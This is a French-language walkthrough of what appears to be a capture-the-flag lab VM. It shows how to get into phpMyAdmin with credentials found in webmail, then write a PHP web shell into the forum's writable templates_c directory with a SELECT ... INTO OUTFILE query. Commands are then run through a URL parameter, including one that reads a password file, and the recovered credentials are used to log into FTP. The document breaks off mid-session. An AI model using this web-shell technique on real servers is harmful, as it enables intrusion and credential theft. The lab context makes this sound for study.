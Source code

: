 Le mot de passe du webmail est le meme que celui du forum

## Se connecter sur PhpMyAdmin

Sur le webmail aller dans le mail "DB Access". Les accès sont donnés :

url : `https://<ip>/phpmyadmin`
login : root
password : `Fg-'kKXBj87E:aJ$`

## Trouver la première bombe :

Une fois connecté sur la DB...

## Uploader des scripts via la BDD

Une fois l'accès à la BDD via "phpMyadmin" trouvé, on exploite la faille de sécurité qui consiste à écrire des fichiers, script php sur le server.

Le framework [mylittleforum](https://github.com/ilosuna/mylittleforum/wiki/Installation) a un fichier dans son arborescence en écriture. On va pouvoir donc écrire les scripts ici:
`https://<ip>/forum/templates_c/`  
Tips : on sait qu'on est sur un site de type mylittleforum car présent dans le footer du site.

Dans la console phpMyadmin, onglet MySQL, on copie la ligne suivante pour injecter un fichier sur le serveur, nous permettant de lancer des commandes via l'URL (ex: ls)

`SELECT "<?php system(' '.$_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/all.php"`

## Exploration du server

Voici comment, en passant des arguments dans l'url, on utilise nos scripts:
- ex: https://192.168.56.101/forum/templates_c/all.php?cmd=ls
- ex: https://192.168.56.101/forum/templates_c/all.php?cmd=ls%20-la%0A

On peut utiliser le site suivant pour encoder les commandes, notamment celles avec des espaces : http://www.utilities-online.info/urlencode/#.XPpUmpMzZBy

En se promenant sur le server, on trouve un login et un mot de passe : 

Commande : `https://192.168.56.101/forum/templates_c/all.php?cmd=cat%20/home/LOOKATME/password%0A`

Login et mdp : `lmezard:G!@M6f4Eatau{sF"`

Le scan des ports, préalablement réalisé, nous montrait qu'il y avait sur la VM un server FTP, c'est un peu par hasard et par chance qu'on utilise ces identifiants sur celui-ci et qu'on en obtient l'accès.

## Connection au serveur FTP

Connection au serveur `ftp` (depuis notre conteneur Kali, ou en local):

```
> ftp 192.168.56.101

Name (192.168.56.101:root): lmezard
331 Please specify the password.
Password:
230 Login successful
```
On passe en mode passif (là, c'est juste une histoire de port, le serveur décide du port sur lequel on écoute).
```
ftp> pass
Passive mode on.
ftp> dir
227 Entering Passive Mode (192,168,56,101,171,238)
150 Here comes the directory listing.
```